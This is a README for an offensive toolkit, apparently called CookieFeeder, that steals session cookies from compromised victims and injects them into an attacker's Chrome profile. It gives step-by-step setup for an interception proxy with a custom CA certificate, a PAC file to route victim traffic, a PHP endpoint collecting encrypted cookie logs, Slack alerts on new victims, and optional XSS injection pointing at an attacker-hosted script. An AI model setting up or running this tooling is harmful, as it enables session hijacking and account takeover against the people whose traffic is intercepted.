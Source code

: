 # CookieFeeder

CookieFeeder is a Chrome Extension designed to help in the process of cloning cookies from a compromised victim, by replicating the cookies from a remote log file into the browser. The extension will inject all cookies, including secured cookies, into all compromised websites without the need to have url opened.

## Server Setup

Follow this in case you want to do a full setup, including the server for capturing the cookies. Otherwise, skip to the next section.

1. Create an EC2/Lightsail instance. Install apache2, setup your domain and SSL certificates.

2. Clone the repository:
    ```
    git clone https://github.com/thiagomayllart/CookieSnatcher
    cd CookieSnatcher/CookieFeeder
    ``` 
3. Install mitmproxy:
    ```
    apt install mitmproxy
    ```
4. Change `cert_gen.cnf` as you wish. This is the config file to create the CA certificate and key. Ideally you will only need to change the "dn" section with other information.
5. Run
    ```
    ./generate_certs.sh`
    ```
6. Save your `server.php` in your apache2 path (e.g. /var/www/html). You can change the filename, only ensure you have installed php mod in your apache2 server:
    ```
    apt install php libapache2-mod-php
    ```
7. Generate you IV and key:
    ```
    ./generate_key_iv.sh
    ```
8. Replace the KEY and IV in the `cookie_monitor.py` file:
    ```
    KEY = base64.b64decode('YOUR_KEY')
    IV = base64.b64decode('YOUR_IV')
    ```
9. Replace the PHP url in the `cookie_monitor.py` file. This should be the url of the server.php:
    ```
    SERVER_URL = 'https://YOUR_ENDPOINT/server.php'
    ```
10. Add your Slack Webhook for alerting upon new connections:
    ```
    SLACK_WEBHOOK_URL = 'https://ADD_HERE'
    ```
11. If you are injecting XSS in the pages, replace here:
    ```
    script.src = 'YOUR_SCRIPT_JS_URL';
    ```
12. Also replace this variable `WHITELISTED_HOST` with the url your XSS is stored.
13. Modify the `your_proxy_domain` in the settings.pac file. This should be the endpoint you will be running your proxy. Ideally, the proxy and the apache2 should be in the same server, thus, the domain should be the same.
14. Store your settings.pac file (and change the name) in the root of your apache web server.
15. Start the proxy:
    ```
    mitmdump -s cookie_monitor.py --set stream_large_bodies=1m --set flow_detail=0 --set max_flow_size=100m --set connection_strategy=lazy --set block_global=false -p 8080
    ```

## Extension Setup

1. Clone the repository:
```
git clone https://github.com/thiagomayllart/CookieFeeder
```
2. Create a new Chrome Profile. This is useful to avoid overwriting or conflicting with your actual cookies.
```
Customize and Control Google Chrome -> Select the current Profile -> Add new profile
```
3. Install CookieFeeder. 
4. You should have already created your key/IV from the previous section, if not, run `generate_key_iv.sh`. Using those keys, replace `YOUR_KEY` and `YOUR_IV` in CookieFeeder/cookiefeeder/background.js.
    - a. ```Navigate to chrome://extensions/```
    - b. ```Select "load unpacked"```
    - c. ```Select the cookiefeeder directory inside the clone repository```
    - d. ```Extension will be added to Chrome```

5. Click on the extension icon, input the Cookies URL and click on Save. Wait a few seconds as the cookies will be synchronized with your Chrome profile.

